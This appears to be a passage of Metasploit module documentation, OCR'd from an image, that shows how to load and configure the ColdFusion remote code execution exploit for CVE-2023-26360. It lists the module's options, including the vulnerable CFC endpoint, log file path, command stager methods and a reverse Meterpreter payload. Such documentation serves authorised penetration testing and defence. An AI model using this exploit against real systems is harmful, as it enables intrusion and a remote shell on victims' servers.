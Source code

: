 ## Scenarios
### Generic Java (Adobe ColdFusion 2021 Update 5 on Windows Server 2022)
```
msf6 > use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > show options

Module options (exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360):

   Name          Current Setting      Required  Description
   ----          ---------------      --------  -----------
   CFC_ENDPOINT  /cf_scripts/scripts  yes       The target ColdFusion Componen
                 /ajax/ckeditor/plug            t (CFC) endpoint
                 ins/filemanager/ied
                 it.cfc
   CF_LOGFILE    ../logs/coldfusion-  yes       The target log file, relative
                 out.log                        to the wwwroot folder.
   Proxies                            no        A proxy chain of format type:h
                                                ost:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), see https:
                                                //docs.metasploit.com/docs/usi
                                                ng-metasploit/basics/using-met
                                                asploit.html
   RPORT         8500                 yes       The target port (TCP)
   SSL           false                no        Negotiate SSL/TLS for outgoing
                                                 connections
   SSLCert                            no        Path to a custom SSL certifica
                                                te (default is randomly genera
                                                ted)
   URIPATH       /                    no        The URI to use for this exploi
                                                t
   VHOST                              no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic Java

```